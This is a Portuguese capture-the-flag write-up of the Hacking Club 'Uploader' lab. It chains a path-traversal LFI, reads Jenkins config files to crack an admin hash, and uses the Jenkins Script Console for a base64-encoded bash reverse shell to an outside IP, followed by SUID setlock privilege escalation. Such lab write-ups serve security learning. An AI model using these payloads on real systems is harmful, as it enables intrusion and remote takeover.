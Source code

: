 ```yaml
---
title: 'Uploader Writeup'
date: '2024-11-19'
tags: ['LFI', 'RCE', 'Linux']
draft: false
summary: 'Aplicação possui vulnerabilidades de Local File Inclusion (LFI), execução remota de comandos (RCE) via Jenkins, e elevação de privilégios usando binário SUID.'
images: ['/static/images/uploader-writeup-images/default.png']
authors: ['default']
---
```


![logo](/static/images/uploader-writeup-images/default.png)

## **Plataforma**: Hacking Club

### **Dificuldade:** Easy

### **Nome**: Uploader

---

### **Port Scanning**

`nmap -sV -sC -p- -v $IP --open`

```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 a8:1f:3c:4b:d9:ee:93:28:2d:a3:b8:9f:f0:cf:17:37 (ECDSA)
|_  256 ac:e2:d9:11:33:bc:69:81:23:8a:35:ed:91:20:14:c8 (ED25519)
80/tcp   open  http    Apache httpd 2.4.52 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET POST
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-title: Index
|_http-server-header: Apache/2.4.52 (Ubuntu)
8080/tcp open  http    Jetty 10.0.18
|_http-favicon: Unknown favicon MD5: 23E8C7BD78E8CD826C5A6073B15068B1
|_http-server-header: Jetty(10.0.18)
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
| http-robots.txt: 1 disallowed entry
|_/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Somente as porta 80, 8080 e 22 estão abertas

---

## Enumeration

`http://172.16.10.47:80`

Uma aplicação de upload de imagens

![uploader](/static/images/uploader-writeup-images/image.png)

`http://172.16.10.47:8080`

Aplicação rodando um Jenkins

Tentei algumas credenciais default, mas não obtive sucesso.

![uploader 1](/static/images/uploader-writeup-images/image1.png)

---

### Voltando ao servidor web na porta 80

Tentei utilizar a funcionalidade pra subir uma web-shell em php, mas não obtive sucesso, a aplicação está validando.

![uploader 2](/static/images/uploader-writeup-images/image2.png)

Então, capturei a requisição com o Burp e comecei a testar por LFI.

`....//....//....//....//....//....//etc/passwd`

![uploader 3](/static/images/uploader-writeup-images/image3.png)

LFI Encontrado!

Tentei escalar o LFI pra RCE utilizando log poisoning, mas não obtive sucesso 😞.

Como a aplicação rodando na porta 8080 se trata de um Jenkins, vamos utilizar o LFI pra ler os arquivos de configuração do servidor.

`/var/lib/jenkins/users/users.xml`

![uploader 4](/static/images/uploader-writeup-images/image4.png)

De acordo com o arquivo `users.xml` , existe um outro diretório chamado `admin_10281833997561721098` . Dentro desse diretório, conseguimos acessar o arquivo de configuração do Jenkins.

`/var/lib/jenkins/users/admin_10281833997561721098/config.xml`

![uploader 5](/static/images/uploader-writeup-images/image5.png)

Com o hash em mãos, vamos utilizar o hashcat pra tentar quebrar.

`hashcat -m 3200 hash.txt /usr/share/wordlists/rockyou.txt`

![uploader 6](/static/images/uploader-writeup-images/image6.png)

Com as credenciais `admin:ginger1` conseguimos logar no Jenkins

![uploader 7](/static/images/uploader-writeup-images/image7.png)

---

## Foot Hold

O jenkins possui uma funcionalidade chamada ‘**Script Console**’, que podemos abusar pra rodar uma reverse-shell utilizando **Groovy Script**.

`http://172.16.10.47:8080/manage/script`

![uploader 8](/static/images/uploader-writeup-images/image8.png)

Nesse caso, a aplicação por alguma razão não executa a rev-shell, a alternativa foi encodar a payload em base64 para funcionar.

`echo "bash -c 'exec bash -i &>/dev/tcp/10.0.31.150/1337 <&1'" | base64`

![uploader 9](/static/images/uploader-writeup-images/image9.png)

Agora só enviar e pegar a shell.

```python
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = 'bash -c {echo,YmFzaCAtYyAnZXhlYyBiYXNoIC1pICY+L2Rldi90Y3AvMTAuMC4zMS4xNTAvMTMzNyA8JjEnCg==}|{base64,-d}|{bash,-i}'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```

![uploader 10](/static/images/uploader-writeup-images/image10.png)

![uploader 11](/static/images/uploader-writeup-images/image11.png)

---

## Privillege Escalation

SUID `setlock`

`find / -type f -perm -04000 -ls 2>/dev/null`

![uploader 12](/static/images/uploader-writeup-images/image12.png)

`/usr/bin/setlock - /bin/sh -p`

![uploader 13](/static/images/uploader-writeup-images/image13.png)

### Referencia

https://gtfobins.github.io/gtfobins/setlock/#suid

---

## Proof

![uploader 14](/static/images/uploader-writeup-images/image14.png)
